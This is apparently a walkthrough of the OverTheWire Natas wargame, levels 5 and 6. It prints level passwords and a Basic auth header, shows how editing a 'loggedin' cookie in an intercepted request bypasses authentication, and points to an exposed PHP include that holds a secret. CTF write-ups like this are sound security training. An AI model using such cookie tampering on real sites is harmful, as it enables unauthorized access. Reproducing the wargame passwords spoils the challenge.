 > Solution: intercept the packet, change the cookie

Username: natas5
URL:      http://natas5.natas.labs.overthewire.org
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

```html
# refresh the Page
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Cookie: loggedin=0
Upgrade-Insecure-Requests: 1
--------------------------------------------------------
# the packet header stores cookie information.
# change loggedin=0 to loggedin=1, and Forward that packet.
--------------------------------------------------------
"Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
```

---

## Natas Level 5 → Level 6

> Solution: source code

Username: natas6
URL:      http://natas6.natas.labs.overthewire.org
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

```html
--------------------------------------------------------
<body>
<h1>natas6</h1>
<div id="content">

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>  #!!!!!!!
</div>
</body>
--------------------------------------------------------
goto:
http://natas6.natas.labs.overthewire.org/index-source.html
--------------------------------------------------------
include "includes/secret.inc";
# the PHP is including a link to a file stored on the webpage /includes/secret.inc.
    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
```